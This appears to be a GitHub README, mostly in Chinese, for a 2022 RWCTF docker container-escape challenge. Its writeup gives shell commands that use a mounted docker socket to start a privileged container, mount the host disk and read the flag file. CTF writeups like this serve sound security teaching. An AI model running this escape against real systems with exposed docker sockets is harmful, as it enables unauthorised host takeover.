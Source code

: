 ## About

这是2022年第三届RWCTF体验赛的容器逃逸题目, 题目作者是 [zh-explorer][1]

## Description of the challenge

Do you want to be a docker escaper? So you need to be patient. It takes minutes for me to get a docker ready for you. I can’t make it faster without kvm, but I think you can do it locally.
from: SpaceSkyNet

## Weriteup

仔细观察user-data中的docker启动命令

```bash
docker run -i -m 128m -v /var/run/docker.sock:/s
```

使用-v 将docker daemon socket映射到了容器中, 因此我们看可以通过 socket 控制容器外的docker, 直接使用-v映射flag或者启动特权容器逃逸即可

```bash
sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
sed -i "s/http:\/\/security.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
apt update
DEBIAN_FRONTEND="noninteractive" apt-get -y install docker.io
docker -H unix:///s run -i --privileged ubuntu bash
mkdir /tmp/a
mount /dev/sda1 /tmp/a
chmod 777 /tmp/a/root/flag
cat /tmp/a/root/flag
```

## Deploy

题目部署脚本相关可以参考 [deploy][2] 文件夹

## Reference Link

[1]: https://github.com/zh-explorer
[2]: ./deploy	"题目部署脚本"



